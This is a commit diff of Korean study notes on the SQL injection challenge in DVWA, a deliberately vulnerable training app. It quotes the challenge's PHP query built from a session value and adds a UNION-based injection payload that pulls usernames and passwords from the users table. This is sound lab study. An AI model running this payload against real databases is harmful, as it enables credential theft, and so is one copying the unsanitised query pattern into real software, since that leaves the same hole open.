

Before and after one commit to moonimax/IOT-Security-Dev, a Markdown page: 웹 취약점/DVWA.md, the part around the change. Rendered like a GitHub page; pictures changed too: Images/Pasted image 20260730153635.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-07-30 15:36:48

````diff
--- a/웹 취약점/DVWA.md
+++ b/웹 취약점/DVWA.md
@@ -144,9 +144,23 @@ source code
 http://192.168.63.134/dvwa/vulnerabilities/sqli/session-input.php
 ```
 
+기존 문제와는 다르게 세션을 요청해서 파라미터 값을 변조시키는 방법인 거 같다.
+LIMIT 1 로 출력값의 첫 줄만 출력되는 것을 볼 수 있다.
+SESSION id 값에서 입력 프롬프트에서 바로 대입을 통해 테이블 조회가 가능하다.
 
+```php
+if( isset( $_SESSION [ 'id' ] ) ) {    // Get input    $id = $_SESSION[ 'id' ];
 
+$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
+```
 
+공격.
+
+```mysql
+1' or '1'='1' UNION SELECT user, password FROM users #
+```
+
+![](../Images/Pasted%20image%2020260730153635.png)
 
 
 
````
Also changed, not shown: 1 other file.
